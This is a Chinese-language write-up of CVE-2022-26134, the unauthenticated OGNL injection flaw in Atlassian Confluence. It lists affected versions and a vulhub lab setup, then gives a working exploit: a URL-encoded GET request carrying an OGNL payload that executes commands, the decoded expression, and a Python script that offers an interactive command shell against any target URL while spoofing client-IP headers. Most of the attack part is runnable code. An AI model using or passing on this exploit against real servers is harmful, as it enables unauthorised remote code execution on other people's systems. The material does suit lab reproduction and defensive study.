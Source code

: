 # CVE-2022-26134

> **Cretae by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence OGNL表达式注入命令执行漏洞



# 0x01 漏洞概述

Atlassian Confluence 是一款各企业广泛使用的 wiki 系统。在Atlassian Confluence Server and Data Center上存在OGNL 注入漏洞，远程攻击者在未经身份验证的情况下，可构造OGNL表达式进行注入，实现在Confluence Server或Data Center上执行任意代码。

# 0x02 影响范围

- 1.3.0 <= Confluence Server and Data Center < 7.4.17
- Confluence Server and Data Center 7.12.5
- 7.13.0 <= Confluence Server and Data Center < 7.13.7
- 7.14.0 <= Confluence Server and Data Center < 7.14.3
- 7.15.0 <= Confluence Server and Data Center < 7.15.2
- 7.16.0 <= Confluence Server and Data Center < 7.16.4
- 7.17.0 <= Confluence Server and Data Center < 7.17.4
- 7.18.0 <= Confluence Server and Data Center < 7.18.1

# 0x03 环境搭建

使用vulhub搭建

执行如下命令启动一个Confluence Server 7.13.6：

```
cd confluence/CVE-2022-26134
docker compose up -d
```

环境启动后，访问 `http://your-ip:8090` 安装向导，选择“试用安装”，然后会要求填写许可证密钥，需要向 Atlassian 申请 Confluence Server 测试证书。

在数据库配置页面，填写数据库地址db、数据库名称confluence、用户名postgres、密码postgres。

![Untitled](image/Untitled.png)

# 0x04 漏洞复现

## 方式一：通过POC

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close

```

![Untitled](image/Untitled%201.png)

其中使用到的OGNL表达式如下：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}。
```

## 方式二：通过脚本

```
# CVE编号：cve-2022-26134
# By A-little-dragon

from datetime import datetime
import requests
from urllib.parse import quote

def GetTime():
    return datetime.strftime(datetime.now(), '%Y-%m-%d %H:%M:%S')

headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36",
    "Accept-Encoding": "gzip, deflate, br, zstd",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Pragma": "no-cache",
    "Priority": "u=0, i",
    "Sec-Ch-Ua": '"Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "none",
    "Sec-Fetch-User": "?1",
    "Upgrade-Insecure-Requests": "1",
    "Ali-Cdn-Real-Ip": "localhost",
    "Cache-Control": "no-cache",
    "Cdn-Real-Ip": "localhost",
    "Cdn-Src-Ip": "localhost",
    "Cf-Connecting-Ip": "localhost",
    "Client-Ip": "localhost",
    "Forwarded": "localhost",
    "Forwarded-For": "localhost",
    "Proxy-Client-Ip": "localhost",
    "True-Client-Ip": "localhost",
    "Wl-Proxy-Client-Ip": "localhost",
    "X-Cluster-Client-Ip": "localhost",
    "X-Forwarded": "localhost",
    "X-Forwarded-For": "localhost",
    "X-Originating-Ip": "localhost",
    "X-Real-Ip": "localhost",
    "X-Remote-Addr": "localhost",
    "X-Remote-Ip": "localhost"
}

def start():
    url = input("Set Target URL > ")
    print(f"[+] {GetTime()} Start executing the attack program!")
    while True:
        try:
            command = input("$ > ")
            res = requests.get(
                url=url + f"/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{quote(command)}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/",
                headers=headers, allow_redirects=False)
            if res.status_code == 302:
                print(f"[+] {GetTime()} 执行成功！")
                print(res.headers.get("X-Cmd-Response"))
            else:
                print(f"[-] {GetTime()} 执行失败！")
        except Exception as e:
            print(f"[-] {GetTime()} 执行失败,原因如下：", e)

if __name__ == '__main__':
    start()

```

![Untitled](image/Untitled%202.png)

